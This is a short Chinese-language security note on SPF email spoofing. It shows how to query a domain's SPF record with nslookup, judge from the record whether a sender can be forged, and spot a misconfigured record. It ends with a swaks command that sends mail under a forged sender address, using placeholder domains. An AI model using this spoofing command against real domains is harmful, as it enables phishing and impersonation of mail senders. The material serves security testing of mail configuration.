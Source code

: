 ## 1. PoC

检测 spf 记录

```
┌──(root@debian)-[~]
└─# nslookup -type=TXT example.com
Server:         8.8.8.8
Address:        8.8.8.8#53

Non-authoritative answer:
example.com     text = "_k2n1y4vw3qtb4skdx9e7dxt97qrmmq9"
example.com     text = "v=spf1 -all"

Authoritative answers can be found from:
```

```
v=spf1 -all: 无法伪造
v=spf1 ~all, v=spf1 ?all: 可能伪造
无 v=spf1 或 v=spf1 +all: 极易伪造
```

使用 [SPF Query Tool ](https://www.kitterman.com/spf/validate.html) 解析 SPF 记录是否配置正确, 若配置错误则可尝试绕过 SPF 保护

![使用 SPF Query Tool 解析 SPF 记录是否配置正确, 若配置错误则可尝试绕过 SPF 保护](./../../../images/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E4%BD%BF%E7%94%A8%20SPF%20Query%20Tool%20%E8%A7%A3%E6%9E%90%20SPF%20%E8%AE%B0%E5%BD%95%E6%98%AF%E5%90%A6%E9%85%8D%E7%BD%AE%E6%AD%A3%E7%A1%AE,%20%E8%8B%A5%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF%E5%88%99%E5%8F%AF%E5%B0%9D%E8%AF%95%E7%BB%95%E8%BF%87%20SPF%20%E4%BF%9D%E6%8A%A4.png)

配置正确

```
v=spf1 include:spf1.example.com include:spf2.example.com include:spf3.example.com include:spf4.example.com -all
```

![](./../../../images/SPF_%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E9%85%8D%E7%BD%AE%E6%AD%A3%E7%A1%AE.png)

配置错误

```
v=spf1 include:spf1.example.com spf2.example.com spf3.example.com spf4.example.com -all
```

![](./../../../images/SPF_%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF.png)

## 2. Exploit

伪造 example 向 test 发送邮件

```
┌──(root-kali)-[~]          
└─# swaks --body "Hello, World!" --header "Subject:example" -t admin@test.com -f admin@example.com
```

```
--body   邮件内容
--header 邮件标题
-t       目标邮箱
-f       伪造邮箱
```

